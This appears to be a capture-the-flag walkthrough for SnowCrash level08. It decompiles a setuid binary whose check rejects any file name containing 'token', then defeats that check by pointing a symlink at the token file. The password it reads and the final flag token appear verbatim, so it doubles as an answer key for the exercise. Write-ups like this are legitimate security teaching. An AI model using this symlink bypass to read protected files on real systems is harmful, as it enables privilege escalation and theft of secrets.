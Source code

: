 when we enter we see a single executable with s permits and a token that cannot be read

```bash
level08@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level08 level08  140 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Decompiling that binary with ghidra

```C

/* WARNING: Unknown calling convention */

int main(int argc,char **argv,char **envp)

{
  char *pcVar1;
  int __fd;
  size_t __n;
  ssize_t sVar2;
  int in_GS_OFFSET;
  undefined4 *in_stack_00000008;
  int fd;
  int rc;
  char buf [1024];
  undefined1 local_414 [1024];
  int local_14;
  
  local_14 = *(int *)(in_GS_OFFSET + 0x14);
  if (argc == 1) {
    printf("%s [file to read]\n",*in_stack_00000008);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  pcVar1 = strstr((char *)in_stack_00000008[1],"token");
  if (pcVar1 != (char *)0x0) {
    printf("You may not access \'%s\'\n",in_stack_00000008[1]);
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  __fd = open((char *)in_stack_00000008[1],0);
  if (__fd == -1) {
    err(1,"Unable to open %s",in_stack_00000008[1]);
  }
  __n = read(__fd,local_414,0x400);
  if (__n == 0xffffffff) {
    err(1,"Unable to read fd %d",__fd);
  }
  sVar2 = write(1,local_414,__n);
  if (local_14 != *(int *)(in_GS_OFFSET + 0x14)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return sVar2;
}
```

so we see that it reads and writes into console a file if its name is token,
writing a symbolic link and running again

```bash
level08@SnowCrash:~$ chmod 777 .
level08@SnowCrash:~$ ln -s token hola
level08@SnowCrash:~$ ./level08 hola
quif5eloekouj29ke0vouxean
```

with this token we move onto the flag08 user and run getflag
```bash
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```